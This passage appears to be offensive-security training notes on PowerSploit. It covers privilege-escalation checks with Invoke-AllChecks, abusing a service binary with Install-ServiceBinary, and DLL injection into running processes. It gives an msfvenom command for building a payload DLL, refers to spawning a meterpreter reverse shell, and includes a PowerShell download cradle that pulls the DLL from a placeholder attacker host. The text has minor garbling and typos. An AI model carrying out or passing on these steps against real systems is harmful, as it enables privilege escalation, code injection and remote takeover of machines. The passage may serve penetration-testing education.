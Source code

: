 We can invoke it on the target after we've imported the Prives.psm1 module with the following command

PS C:\> Invoke-AllChecks


The output will also indicate an AbuseFunction we can use to further exploit the target. In the case with
the following example (screenshot in folder) PowerUp indentified a potential service binary we can install 
with the Install-ServiceBinary -Name'ClickToRunSvc' command


PowerUp also gives the option to save all results to an HTML file with the -HTMLReport flag and will
generate an HTML file we can use to investigate any paths to privilege escalation

The file will be saved in the current directory Invoke-AllChecks was run from and will be in
"MACHINENAME.USERNNAME.html" naming format

PS C:\> Invoke-AllChecks -HTMLReport


# DLL Injection

The CodeInjection category in PowerSploit gives us some options in regard to several methods we can inject 
our own code into existing processes on the target system, whether it be via DLL Injection, injection our 
own custom Shellcode into an existing process, or using WMI to execute commands on the target

The one we will cover here is the Invoke-DLLInjection script as it is the most commonly used

this function injects an attacker-defined DLL into any existing process ID on the target system


the first requirement, of course, is that we generate a DLL for demonstration purposes

This can be done a number of ways, but most commonly, we can just use Metasploits msfvenom to generate
one with the following command:


msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll

This command will simply execute a cmd.exe prompt on the target when injected

In our exploration of the tool, we can create a dll that will spawn a meterpreter reverse shell
for instance


The DLL will need to be downloaded to the target. This can be done in any number of ways qwe've covered
before in this module

We can use the Net.WebClient"DownloadFile download cradle method for that

PS C:\> iex (New-Object Net.WebClient).DownloadFile('http://attacker_url/cmd.dll', 'C:\programdata\cmd.dll')
